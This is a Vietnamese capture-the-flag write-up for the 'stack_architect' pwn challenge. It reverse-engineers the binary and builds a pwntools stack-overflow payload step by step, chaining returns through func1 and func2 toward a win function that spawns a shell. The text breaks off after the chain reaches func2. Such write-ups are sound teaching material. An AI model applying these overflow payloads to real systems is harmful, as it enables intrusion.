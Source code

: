 # stack_architect
## Description
Khởi động.  
`nc 45.122.249.68 10018`  
[Attachment](https://cnsc.uit.edu.vn/ctf/files/d9146f84789b9132242732525b630201/stack_architect.zip?token=eyJ1c2VyX2lkIjoxMTczLCJ0ZWFtX2lkIjo1MDUsImZpbGVfaWQiOjE4N30.YchsbA.UjdLJtRgxmogl5wA8vi0Sg8sci0)

## Solution
### Observation
Khi dùng ghidra để reverse binary thì ta thấy chương trình có các hàm thú vị `func1`, `func2`, `main`, `win`:  

![image](https://user-images.githubusercontent.com/44528004/147409463-6b4af67d-66ca-4035-aa40-8d69e88c5954.png)

Đầu tiên, ta sẽ xem hàm `win`. Hàm này sẽ kiểm tra xem `check2`, `check3`, `check4` có khác `0` hay không. Nếu có thì chương trình sẽ setup và gọi `system('/bin/sh')`. Vậy mục tiêu của chúng ta sẽ là làm cho 3 biến `check2`, `check3`, `check4` khác `0`.  

![image](https://user-images.githubusercontent.com/44528004/147409582-4d9ce9a3-2c34-45d7-92fc-e3866ac6c3e0.png)


Tiếp theo, ta xem hàm `func1`. Ở đây, ta thấy được rằng `check3` sẽ được gán bằng `1` nếu thoả điều kiện `check2 != 0 && param_1 == 0x20010508`. Đồng thời, `check2` sẽ được gán bằng `1` nếu `iVar1 == 0`, tương đương với việc chuỗi được lưu tại `local_58` của hàm `func1` phải bằng `I\'m sorry, don\'t leave me. I want you here with me ~~`.  

![image](https://user-images.githubusercontent.com/44528004/147409659-8ee27123-1562-452b-8211-2619886bb6b1.png)

Tiếp theo là hàm `func2`. Hàm này sẽ gán `check4` bằng `1` nếu `check3 != 0` và `local_8 == 0x8052001`.  

![image](https://user-images.githubusercontent.com/44528004/147409748-428948d8-3581-40b7-aa44-fc8d5e5df9a3.png)

Ở hàm `main`, ta thấy được rằng ta sẽ nhập vào 1 chuỗi và chuỗi này được lưu ở biến `local_58`. Đồng thời, có một biến `check1` sẽ có giá trị là 1 khi hàm kết thúc (vì nếu `check1 != 0` thì chương trình sẽ exit).  

![image](https://user-images.githubusercontent.com/44528004/147409488-c7b156b1-bc8d-4f13-8443-7a1cdf9d5a2b.png)  


### Exploit
Vì mục tiêu của chúng ta là các biến `check2`, `check3`, `check4` phải khác `0` nên ta sẽ cố gắng làm thoả các điều kiện để các biến này có được giá trị khác `0`. Ta sẽ lần lượt exploit `check2`, `check3` rồi đến `check4` vì `check4` phụ thuộc vào `check3` và `check3` phụ thuộc vào `check2`. Do đó, thứ tự gọi hàm tương ứng sẽ là `main` -> `func1` -> `func2` -> `win`.  

#### Return về được `func1`
Sau khi debug, ta có được bảng sau:  

| Đối tượng | Địa chỉ trên stack | Khoảng cách so với buffer (byte) |
|---|---|---|
| buffer | `0xffffd024` | 0 |
| `return address` của hàm `main` | `0xffffd07c` | 0x58 |
| `ebp` của hàm `main` | `0xffffd078` | - |

Từ đó, ta cần chèn 0x58 bytes junk vào buffer và thêm 4 bytes là địa chỉ của hàm `func1`.
```python
e = ELF('./stack_architect')
func1_addr = e.symbols['func1']
payload = b'A' * 0x58 + p32(func1_addr)
```

Khi thử debug với payload trên thì ta thấy được là ta đã return về `func1` thành công.  

![image](https://user-images.githubusercontent.com/44528004/147410362-2037df27-4751-4123-82d7-c0d93bca4d91.png)  

#### Truyền chuỗi vào buffer để thoả mãn điều kiện của `strcmp` trong `func1`
Ở `func1`, để `check2 = 1`, ta sẽ truyền chuỗi `I\'m sorry, don\'t leave me. I want you here with me ~~` vào vị trí nào đó trong buffer để biến `local_58` trong hàm `func1` sẽ bằng với chuỗi trên. Lúc này, ta sẽ có `check2 == 1` vì `strcmp` sẽ trả về `0` nếu 2 chuỗi bằng nhau. Vậy nếu ta gọi lại `func1` lần nữa, `check2` lúc này sẽ có giá trị là `1`. Tiếp theo, ta cần truyền giá trị `0x20010508` vào vị trí nào đó trên buffer để khi hàm truy xuất đến `param_1` sẽ lấy được giá trị `0x20010508` và làm thoả mãn điều kiện.  

Khi `disass` hàm `func1`, ta thấy được rằng `local_58` nằm tại `ebp - 0x54` (vì `local_58` là đối số thứ 1 của hàm `strcmp` nên sẽ được push vào stack sau).  

![image](https://user-images.githubusercontent.com/44528004/147410799-3ed87810-c625-42f8-9849-14dfd62710ec.png)  

Đồng thời, ta cũng biết được là `param_1` sẽ nằm tại vị trí `ebp + 0x8`.  

![image](https://user-images.githubusercontent.com/44528004/147410911-5fffc63b-078c-4196-a8d6-8d1a4b83410c.png)


Ta debug, xem các địa chỉ và lập được bảng sau:

| Đối tượng | Địa chỉ trên stack | Khoảng cách so với buffer (byte) |
|---|---|---|
| `ebp` của hàm `func1` | `0xffffd07c` | - |
| `local_58` | `ebp - 0x54 = 0xffffd07c - 0x54 = 0xffffd028` | 0x4 |
| `return address` của hàm `func1` | `0xffffd080` | 0x5c |

Vậy payload của ta lúc này sẽ là:  
```python
e = ELF('./stack_architect')
func1_addr = e.symbols['func1']
func2_addr = e.symbols['func2']

payload = b'A' * 0x4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~\x00'
payload += (0x58 - len(payload)) * b'A' + p32(func1_addr)
payload += p32(func1_addr)
```

Lúc này ta debug thì thấy được là ta đã chèn thành công chuỗi `I\'m sorry, don\'t leave me. I want you here with me ~~` vào stack để pass được điều kiện so sánh `strcmp`.  

![image](https://user-images.githubusercontent.com/44528004/147430599-424e0bc4-b9a7-4047-9466-0b4421b05699.png)  

Ta cũng thành công trong việc gọi hàm `func1` lần 2 để có giá trị `check2 = 1`.  

![image](https://user-images.githubusercontent.com/44528004/147430648-9c75f38b-d281-4e31-961c-1b85cb9ed685.png)  


#### Truyền giá trị vào `param_1` 
Ở lần gọi hàm `func1` lần thứ 2, thanh ghi `ebp` đang trỏ tới `0xffffd080` nên ta sẽ debug và lập bảng sau:

| Đối tượng | Địa chỉ trên stack | Khoảng cách so với buffer (byte) |
|---|---|---|
| `ebp` của hàm `func1` lần 2 | `0xffffd080` | - |
| `param_1` | `ebp + 0x8 = 0xffffd088` | 0x64 |
| `return address` của hàm `func1` lần 2 | `0xffffd084` | 0x60 |

Từ đây, ta có payload sau:
```python
e = ELF('./stack_architect')

func1_addr = e.symbols['func1']
func2_addr = e.symbols['func2']

payload = b'A' * 0x4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~\x00'
payload += (0x58 - len(payload)) * b'A'  + p32(func1_addr)
payload += p32(func1_addr)
payload += p32(func2_addr)
payload += p32(0x20010508)
```

Khi debug thì ta thấy được rằng `param_1` đã được gán bằng `0x20010508`.  

![image](https://user-images.githubusercontent.com/44528004/147431307-547bb427-651c-4f01-a664-0065018de550.png)

Đồng thời, ta cũng thấy được rằng chương trình đã return được về `func2`.  

![image](https://user-images.githubusercontent.com/44528004/147431410-d7f04924-d681-4068-b7d3-45ef41b7cc20.png)
